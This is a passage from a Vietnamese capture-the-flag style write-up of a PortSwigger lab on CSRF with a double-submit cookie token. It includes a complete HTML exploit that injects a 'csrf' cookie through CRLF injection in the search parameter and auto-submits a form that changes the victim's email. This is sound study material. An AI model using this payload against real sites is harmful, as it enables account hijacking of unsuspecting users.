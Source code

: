 ![image](https://hackmd.io/_uploads/HylZ7kSq6.png)

### Phân tích

- Đăng nhập với user wiener, ta tiếp tục tấn công CSRF tại chức năng update email. Lần này, csrf token được lưu trên cả cookie. Có nghĩa là nếu request có csrf token giống với csrf trên cookie thì sẽ được xử lí thành công.

![image](https://hackmd.io/_uploads/B1CMVkHq6.png)

- Cụ thể, thử đồng thời thay đổi csrf ở cookie và body thành 1, ta thấy request vẫn được xử lí thành công.

![image](https://hackmd.io/_uploads/r15I4Jr9T.png)

Nhiệm vụ của mình bây giờ sẽ là inject csrf bất kì trên cookie của nạn nhân rồi thực hiện sử dụng chính csrf token để tấn công.

### Khai thác

- Tương tự bài trên, sử dụng chức năng search để thực hiện inject csrf cookie.

Dựa vào phân tích trên, ta tạo được CSRF payload hoàn chỉnh như sau:

- Inject csrf cookie: Sử dụng tag `<img>`
- Form update email với csrf là giá trị csrf giống cookie csrf.

```htmlembedded
<html>
  <body>
      <img src="https://0a52000a0419f4a5819f892d0046003d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror= 'document.forms[0].submit();'>
    <form action="https://0a52000a0419f4a5819f892d0046003d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abcd@a.a" />
        <input type="hidden" name="csrf" value="fake" />
    </form>
  </body>
</html>
```

Lưu payload vào exploit-server.

![image](https://hackmd.io/_uploads/rkHjSkB5T.png)

Thực hiện Deliver exploit to victim, ta solve thành công challenge.

![image](https://hackmd.io/_uploads/HyysBkH9T.png)

## 7. Lab: SameSite Lax bypass via method override

link: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
